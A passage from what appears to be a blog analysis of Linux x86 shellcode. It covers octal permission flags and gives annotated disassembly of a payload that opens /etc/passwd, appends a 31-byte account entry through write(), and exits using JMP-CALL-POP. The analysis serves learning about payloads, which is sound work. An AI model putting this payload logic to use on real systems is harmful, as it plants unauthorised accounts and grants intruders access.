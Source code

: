 I've learning something new while analyzing this shellcode: that permissions bits in the Linux kernel's source code are represented with the [octal numeral system](https://en.wikipedia.org/wiki/Octal).

Let's look at an example. If you were to check the values for a constant like `O_CREAT` in the file `/include/uapi/asm-generic/fcntl.h`, you would find something like this:

```cpp
#define O_ACCMODE       00000003
#define O_RDONLY        00000000
#define O_WRONLY        00000001
#define O_RDWR          00000002

#ifndef O_CREAT
#define O_CREAT         00000100        /* not fcntl */
```

Initially I though the number was simply a decimal one. If not, maybe a hexadecimal number. Well, turns out that it's actually an octal one.

So you need to convert the number from octal to hex (or decimal when writing your shellcode).

Another piece of advice. When using `strace`, you can pass the arguments `-e raw=open` to view the original, raw values, instead of the constants names.

Back to the shellcode: after the instructions above, the `open` syscall is called.

```nasm
                            ; invoke syscall open()
0000001F  B005              mov al,0x5
00000021  CD80              int 0x80
```

<figcaption class="figure-caption">Use the `open()` syscall to open the file `/etc/passwd`, with flags</figcaption>

Now that the file is opened, it's time to write the new entry:

```nasm
                            ; 1st argument of write():
                            ;   file descriptor of the file want to write
00000023  89C3              mov ebx,eax
00000025  31D2              xor edx,edx

                            ; 2nd argument of write():
                            ;   pointer to the buffer containing the bytes to write
00000027  8B4E2C            mov ecx,[esi+0x2c]

                            ; 3rd argument of write():
                            ;   number of bytes to write: 31
0000002A  B21F              mov dl,0x1f

                            ; call syscall: write()
0000002C  B004              mov al,0x4
0000002E  CD80              int 0x80

                            ; call syscall: close()
00000030  B006              mov al,0x6
00000032  CD80              int 0x80

                            ; call syscall: exit()
00000034  B001              mov al,0x1
00000036  31DB              xor ebx,ebx
00000038  CD80              int 0x80

                            ; part of the JMP-CALL-POP technique
                            ; go back to the address 0x00000002
0000003A  E8C3FFFFFF        call 0x2

```